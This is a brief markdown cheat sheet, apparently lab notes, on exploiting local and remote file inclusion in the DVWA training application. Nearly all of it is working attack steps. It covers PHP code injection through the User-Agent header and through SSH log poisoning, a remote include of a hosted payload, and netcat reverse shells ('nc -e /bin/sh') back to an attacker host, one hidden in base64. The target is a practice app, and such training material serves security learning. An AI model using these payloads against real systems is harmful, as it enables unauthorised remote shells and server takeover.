 # File Inclusion

## LFI - Method 1
1. *"USER_AGENT"* in in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify *"USER_AGENT"* header for test
   - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
3. Listening on attacker machine
   - ```nc -vv -l -p 8888```
4. Modify *"USER_AGENT"* header for Reverse-shell
   - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```  

## LFI - Method 2
1. SSH login attempts are in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
3. Listening on attacker machine 
   - ```nc -vv -l -p 8888```
4. Attacker machine
   - ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```


## RFI
1. Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
2. Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
